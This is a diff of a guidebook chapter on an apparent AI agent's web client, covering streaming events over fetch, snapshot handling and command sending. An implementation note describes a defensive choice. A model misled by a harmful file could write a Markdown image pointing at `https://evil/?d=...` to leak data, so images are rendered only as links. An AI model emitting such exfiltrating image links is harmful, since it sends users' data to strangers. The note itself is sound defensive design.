

Before and after one commit to danhugo/simp-agent, a Markdown page: docs/guidebook/30-web-client.md, 2 parts joined by grey strips. Shown at 90% size. Rendered like a GitHub page; blank space fills up the shorter version.

````diff
--- a/docs/guidebook/30-web-client.md
+++ b/docs/guidebook/30-web-client.md
@@ -100,19 +68,7 @@ return subscribe(sid, () => ref.current.lastSeq, apply, setConn, onLogout);
 
-`subscribe()` reads the event stream with the same `call()`. Its comment says the whole plan:
+## Reading the stream without EventSource
 
-```ts
-/**
- * EventSource-like SSE client over fetch (EventSource cannot send Authorization).
- * Reconnects forever with Last-Event-ID = the last durable seq applied; the server answers with the missed
- * durable events, then a snapshot, then live.
- */
-export function subscribe(
-  sid: string, lastSeq: () => number, onEvent: (ev: ServerEvent) => void,
-  onStatus: (s: ConnStatus) => void, onAuthError: () => void,
-): () => void {
-```
-
-The body is a loop, and each turn of the loop is one connection:
+`call()` can send the token, so the page reads the event stream with it instead of `EventSource`. When Ana picks the fizzbuzz session, `App.tsx` calls `subscribe()` (in `api.ts`), and `subscribe()` runs a loop where each turn is one connection:
 
 ```ts
 const r = await call(`/api/sessions/${sid}/events`, {
@@ -248,14 +208,38 @@ case "thinking_delta": {
 
 A delta for a new `msg_id` starts a fresh bubble only if its offset is 0. If the first piece of a new message was lost, the page waits for the full message instead of showing the middle of it. `tool_output` uses the same `appendAt`, with one text per `call_id` in `toolOutputs`. It needs no new-message check, because each tool call has its own key and starts from an empty string.
 
-### The page draws it (Chat.tsx)
+A delta for a new `msg_id` starts a fresh bubble only if its offset is 0. If the first piece of a new message was lost, the page waits for the full message instead of showing the middle of it. `tool_output` uses the same `appendAt`, with one text per `call_id` in `toolOutputs`; it needs no new-message check, because each tool call starts from an empty string.
 
-`Chat.tsx` only reads `ChatState` and sends commands; it never changes the state itself. Every button calls `api.command(sid, c)`, for example `{ type: "set_plan_mode", enabled: !state.planMode }`, `{ type: "compact" }` or `{ type: "continue" }`. The server runs the command, the result comes back as events, the reducer updates the state, and React redraws. Data goes one way only, so the screen always matches the server. The **Continue** button shows when `canContinue(state)` is true: the run state is `error`, or it is `idle` and the last item is a notice that starts with `interrupted:` (a server restart cut the run).
+## After a reload: the snapshot replaces live state
 
-Markdown is drawn with `react-markdown`, with one change: images are never loaded, they become plain links. The comment in `Chat.tsx` says why. A model that read a harmful file could be tricked into writing `![](https://evil/?d=...)`, and loading that image would send data to a stranger.
+Deltas fill holes only while the line stays up. After a reload the page has no in-flight text at all, so the server's snapshot fills it:
 
-`Files.tsx` lets Ana browse, download and upload files in the session folder with `api.files`, `api.download` and `api.upload`. Files do not change word by word like the chat, so a plain list loaded on request is enough; there is no event stream for files.
+```ts
+case "snapshot":
+  // The snapshot is the truth for everything live: replace the in-flight bubble and live tool output.
+  return {
+    ...s, lastSeq: Math.max(s.lastSeq, ev.last_seq), runState: ev.run_state, pending: ev.pending_approval,
+    title: ev.title, planMode: ev.plan_mode,
+    inFlight: ev.in_flight, toolOutputs: { ...s.toolOutputs, ...ev.in_flight.tool_outputs },
+  };
+```
 
-Using `fetch` instead of `EventSource` costs about 15 lines of SSE parsing and a hand-written retry loop.
+
+The snapshot does not add to the in-flight text; it replaces it. After a reload the bubble shows exactly what the server has, and later deltas continue from there with `appendAt`. Tool output is merged, not replaced: the snapshot holds only the tools still running, so the output of tools that already finished must stay on the screen.
+
+## Ana types, the page draws
+
+The state is now always right, so the page only has to draw it and send commands. When Ana presses Enter, `Chat.tsx` sends one command with `api.command(sid, c)`, which posts to `/api/sessions/{sid}/commands` through the same `call()`:
+
+```ts
+send(!busy ? { type: "prompt", text: t } : queue ? { type: "follow_up", text: t } : { type: "steer", text: t });
+```
+
+If no run is going, the text starts a new run (`prompt`). If a run is going, it is queued for later (`follow_up`) or sent into the current run (`steer`). The POST returns at once. The page does not add Ana's message to the screen itself: her message and the answer come back as events on the stream `subscribe` holds open. Buttons work the same way, for example `{ type: "set_plan_mode", enabled: !state.planMode }`, `{ type: "compact" }` or `{ type: "continue" }`. `Chat.tsx` never changes `ChatState` itself, so data goes one way only and the screen always matches the server.
+
+> **Implementation notes**
+> - **Continue** shows when `canContinue(state)` is true: the run state is `error`, or it is `idle` and the last item is a notice that starts with `interrupted:` (a server restart cut the run).
+> - Markdown is drawn with `react-markdown`, but images are never loaded; they become plain links. A model that read a harmful file could be tricked into writing `![](https://evil/?d=...)`, and loading that image would send data to a stranger.
+> - `Files.tsx` lets Ana browse, download and upload files in the session folder with `api.files`, `api.download` and `api.upload`. Files do not change word by word, so a plain list loaded on request is enough; there is no event stream for files.
 
 **Builds on:** [26 Transport](26-transport.md), [25 Protocol models](25-server-run.md#protocol-models) · **Previous:** [29 Docker sandbox](29-docker-sandbox.md) · **Next:** [31 System tests and deploy](31-system-tests-deploy.md)
````
Also changed, not shown: other parts of docs/guidebook/30-web-client.md (+48 -76 lines), docs/guidebook/img/30-web-client.png (added), 1 other file.
